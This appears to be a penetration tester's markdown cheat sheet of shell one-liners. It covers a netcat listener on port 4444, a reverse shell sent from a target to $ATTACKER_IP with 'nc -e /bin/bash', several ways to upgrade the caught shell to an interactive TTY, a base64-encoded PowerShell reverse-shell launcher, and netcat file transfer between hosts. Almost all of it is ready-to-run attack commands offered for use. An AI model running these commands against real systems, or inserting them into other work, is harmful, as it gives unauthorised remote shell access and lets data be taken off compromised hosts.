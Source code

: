 #nc #reverse #listen
Open reverse shell listener on port 4444:
----
```bash
nc -nvlp 4444
```
Beautify reverse shell:
---
#rev #shell #rev-shell #beautify #upgrade

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
press Ctrl + Z
```shell
stty raw -echo; fg
```
then
```shell
export TERM=xterm-256color
reset
alias ll='ls -lsa --color=auto'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
stty columns 157 rows 30
```
or if no python present:

```bash
perl -e 'exec "/bin/bash";'
/bin/bash -i
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z
stty raw -echo; fg
stty rows 34 columns 157;export TERM=xterm-256color;alias ll='ls -lsa --color=auto'
```
or
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z
stty raw -echo; fg
stty rows 34 columns 157;export TERM=xterm-256color;alias ll='ls -lsa --color=auto'
```
or
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z;
stty raw -echo; fg;
export SHELL=/bin/bash;export TERM=screen;stty rows 33 columns 156;reset
```
or
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
or
```shell
python -c 'import os; os.system("/bin/bash")'
```

Reverse shell from target to attacker
---
#rev-shell #rev #reverse #shell

```bash
nc -e /bin/bash $ATTACKER_IP 4444
```


Create Base64 shell and execute, filtering bad chars:

```bash
echo "powershell -e ";echo -n $REV_SHELL | base64 -w 0
```
Transfer file
---
#nc #file #transfer 

on receiver
```shell
nc -l -p 1234 > out.file
```
on sender
```shell
nc -w 3 $RECEIVER_IP 1234 < out.file
```
